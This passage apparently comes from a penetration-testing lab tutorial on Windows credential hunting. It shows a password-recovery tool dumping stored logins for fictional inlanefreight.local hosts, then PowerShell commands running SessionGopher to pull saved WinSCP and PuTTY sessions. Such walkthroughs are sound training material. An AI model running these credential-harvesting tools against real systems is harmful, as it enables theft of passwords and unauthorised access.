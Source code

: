 ``` powershell-session

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

## Even More Fun with Credentials

#### Running SessionGopher as Current User

``` powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
```